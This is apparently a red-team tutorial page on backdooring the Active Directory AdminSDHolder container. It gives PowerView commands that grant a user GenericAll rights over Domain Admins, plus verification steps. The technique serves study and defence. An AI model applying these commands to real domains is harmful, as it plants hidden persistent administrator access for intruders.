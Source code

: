 # Backdooring AdminSDHolder for Persistence

## AdminSDHolder

`AdminSDHolder` is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.

Once you have agained Domain Admin privileges, `AdminSDHolder` container can be abused by backdooring it by giving your user `GenericAll` privileges, which effectively makes that user a Domain Admin.

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```csharp
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

![](<../../.gitbook/assets/Screenshot from 2018-12-20 20-21-53.png>)

This is actually what happens to the container - the security ACLs get updated and `spotless` gets all the privileges:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 20-24-32.png>)

After 60+ minutes, the changes will propagate automatically, but if you want to force it (if you are testing this in your labs), you can do it via ldp.exe by Modifying DN like so:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 21-07-01.png>)

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}
```

![](<../../.gitbook/assets/Screenshot from 2018-12-20 21-07-30.png>)

We can now hop back to the Domain Admins any time we want to:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 21-12-38.png>)

In fact, we do not even need to be part of DA group, we still have full access to the DC:

![](<../../.gitbook/assets/Screenshot from 2018-12-20 21-19-14.png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/" %}

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://blog.stealthbits.com/persistence-using-adminsdholder-and-sdprop/" %}
